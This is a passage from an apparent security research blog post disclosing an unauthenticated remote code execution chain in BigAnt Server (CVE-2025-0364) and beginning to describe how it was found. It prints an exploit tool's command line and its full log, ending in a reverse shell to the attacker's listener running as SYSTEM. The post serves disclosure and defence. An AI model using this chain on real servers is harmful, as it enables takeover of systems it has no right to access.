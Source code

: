\\nThe BigAntSoft BigAnt Server, which provides a Windows hosted on-premises chat server that focuses on business use cases, is vulnerable to unauthenticated remote code execution via account registration and PHP file uploads. The vulnerability takes advantage of a default exposed SaaS registration that allows an attacker to solve a simple CAPTCHA and then create an administrative user that can upload to the Cloud Storage Add-in. The system allows for the upload of PHP files that can trigger without authentication, leading to a exploit chain of no-authentication to remote code execution in all current, 5.6.06, and below versions.\\n\\nThe VulnCheck team identified this vulnerability during the triage of \[CVE-2024-54761\](https://github.com/nscan9/CVE-2024-54761-BigAnt-Office-Messenger-5.6.06-RCE-via-SQL-Injection), which turned out to require administrator access and had an incorrect CVSS Privileges Required (PR) value. The VulnCheck team identified a few quick indicators of insecure programming practices and chose to investigate deeper, leading to the discovery of this authentication bypass and file upload remote code execution. At the time of discovery there were roughly 50 BigAnt servers on the internet and at the time of publishing this blog there were around 30 identifiable instances.\\n\\n## Shells & Exploit Preamble\\n\\nIn summary, an attacker can gain full remote code execution unauthenticated via a chain of 10 requests. The VulnCheck \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) has published the public exploit: https://github.com/vulncheck-oss/cve-2025-0364\\n\\nThe following shows the exploit in action:\\n\\n\`\`\`sh\\npoptart@grimm:~/src/initial-access/feed/cve-2025-0364 $ ./build/cve-2025-0364\_linux-amd64 -rhost 10.0.0.104 -rport 8000 -lhost 10.0.1.10 -lport 1337 -v -c -e -captcha-hash 652def5853ff0030a259b30af8e7facb\_6e58b283a2a66e4db833ac2547019a30 -captcha-session 4fbsn0i6bdiuu6vuik99gbhndb -captcha VKZ6\\ntime=2025-01-09T14:50:18.502-07:00 level=STATUS msg="Certificate not provided. Generating a TLS Certificate"\\ntime=2025-01-09T14:50:18.575-07:00 level=STATUS msg="Starting TLS listener on 10.0.1.10:1337"\\ntime=2025-01-09T14:50:18.575-07:00 level=STATUS msg="Starting target" index=0 host=10.0.0.104 port=8000 ssl=false "ssl auto"=false\\ntime=2025-01-09T14:50:18.575-07:00 level=STATUS msg="Validating Bigantsoft Bigant Server target" host=10.0.0.104 port=8000\\ntime=2025-01-09T14:50:18.620-07:00 level=SUCCESS msg="Target verification succeeded!" host=10.0.0.104 port=8000 verified=true\\ntime=2025-01-09T14:50:18.620-07:00 level=STATUS msg="Running a version check on the remote target" host=10.0.0.104 port=8000\\ntime=2025-01-09T14:50:18.650-07:00 level=VERSION msg="The reported version is 5.6.06" host=10.0.0.104 port=8000 version=5.6.06\\ntime=2025-01-09T14:50:18.650-07:00 level=SUCCESS msg="The target appears to be a vulnerable version!" host=10.0.0.104 port=8000 vulnerable=yes\\ntime=2025-01-09T14:50:18.650-07:00 level=STATUS msg="Password that will be used for authentication: kyLZiAddnH"\\ntime=2025-01-09T14:50:18.650-07:00 level=STATUS msg="Registering SaaS org: LBJCUE (mpzo@fldlmarv.com) with password: kyLZiAddnH"\\ntime=2025-01-09T14:50:18.675-07:00 level=STATUS msg="Getting new PHP session and pinning the SaaS org to the session"\\ntime=2025-01-09T14:50:18.747-07:00 level=STATUS msg="Retrieving org SSID from demo page with session v1cir7mh9v4dfv4ik54mhq6so0"\\ntime=2025-01-09T14:50:18.764-07:00 level=STATUS msg="Retrieved SSID for LBJCUE: 387360F0-EECD-622B-5B90-C37F2BBD45B3"\\ntime=2025-01-09T14:50:18.765-07:00 level=STATUS msg="Activating SaaS organization"\\ntime=2025-01-09T14:50:22.627-07:00 level=STATUS msg="Authenticating to the addin SaaS admin"\\ntime=2025-01-09T14:50:22.673-07:00 level=STATUS msg="Visiting SaaS addin cloud drive page"\\ntime=2025-01-09T14:50:22.762-07:00 level=STATUS msg="Got cloud drive root path UUID: 99C8911A-DCB3-E5F2-4298-1E3567AA0DAD"\\ntime=2025-01-09T14:50:22.762-07:00 level=STATUS msg="Attempting to upload \`JQsaYCKEOu.php\` to cloud drive addin"\\ntime=2025-01-09T14:50:22.819-07:00 level=STATUS msg="Attempting to trigger final payload, timeout is expected after callback"\\ntime=2025-01-09T14:50:22.819-07:00 level=STATUS msg="Requesting final payload at: http://10.0.0.104:8000/data/387360F0-EECD-622B-5B90-C37F2BBD45B3/pan/99C8911A-DCB3-E5F2-4298-1E3567AA0DAD/2025-01-09/JQsaYCKEOu.php"\\ntime=2025-01-09T14:50:22.821-07:00 level=SUCCESS msg="Caught new shell from 10.0.0.104:51690"\\ntime=2025-01-09T14:50:22.821-07:00 level=STATUS msg="Active shell from 10.0.0.104:51690"\\nMicrosoft Windows \[Version 10.0.17763.107\]\\n(c) 2018 Microsoft Corporation. All rights reserved.\\n\\nC:\\Program Files (x86)\\BigAntSoft\\IM Console\\im\_webserver\\htdocs\\data\\387360F0-EECD-622B-5B90-C37F2BBD45B3\\pan\\99C8911A-DCB3-E5F2-4298-1E3567AA0DAD\\2025-01-09>whoami\\nwhoami\\nnt authority\\system\\n\\n\`\`\`\\n\\nWhile the shells are always great, the full path of discovery to exploitation can be just as valuable than the exploit.\\n\\n## Authentication Paths & SaaS Organizations\\n\\nAfter having the initial disappointing run in with a bad CVSS score assignment(PR is wrong so often), we decided to see if it was possible to quickly identify an authentication bypass vulnerability to amend the sins of the first CVSS score. The investigation combined static analysis with some simple fuzzing of paths to identify all unauthenticated endpoints before even diving too deep into application logic. The server utilizes the ThinkPHP framework, which is popular among Chinese vendors, and uses a model-view-controller design.\\n\\nInvestigation started with a quick enumeration of default exposed web pages later there were multiple views to landing pages that all appeared to be outside the standard \`/index.php/Home/login/index.html\` route. The most